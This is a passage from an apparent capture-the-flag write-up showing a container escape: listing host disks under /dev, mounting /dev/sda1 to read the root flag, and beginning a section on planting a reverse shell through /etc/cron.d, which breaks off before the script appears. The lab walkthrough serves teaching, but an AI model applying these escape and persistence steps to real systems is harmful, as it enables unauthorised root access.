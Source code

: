 

But on backup, I see a lot more, including the disks:



    # ls /dev
    agpgart
    autofs
    bsg  
    btrfs-control
    bus   
    ...
    sda
    sda1
    sda2
    sda3
    sda4
    sda5
    ...
    # ls /dev/ | wc -l
    184



This raw device access is enough to provide file system access:



    # mount /dev/sda1 /mnt
    # ls /mnt/root/
    root.txt



*July 2023 update: It seems the machine got updated at some point, and
the partition with the host file system is now `/dev/sda2`.*

Now I can grab the flag:



    # cat /mnt/root/root.txt
    50d0db64...



### root Shell

With write access to `/etc/cron.d`, I can get a root shell easily. And,
reddish can talk directly home, so I don't have to make tunnels, which
is nice. Write a shell script:
